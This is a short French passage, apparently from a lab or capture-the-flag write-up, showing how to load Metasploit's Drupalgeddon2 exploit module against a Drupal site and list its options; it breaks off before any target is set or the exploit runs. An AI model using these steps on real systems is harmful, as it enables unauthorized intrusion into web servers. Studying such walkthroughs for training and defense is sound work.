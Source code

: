 ![durpalexploit](./images/drupalexploitfile.png)

C'est bien le cas. Maintenant, utilisons metasploit.

## Metasploit

Pour lancer un exploit via ce logiciel, on utilise la commande :

`use exploit/unix/webapp/drupal_drupalgeddon2`

![metasploitmenu]

On doit définir certains paramètres pour lancer l'exploit, pour connaître leurs noms, on utilise :

`exploit(unix/webapp/drupal_drupalgeddon2) > options`

![expopt](./images/optionsmetasploit.png)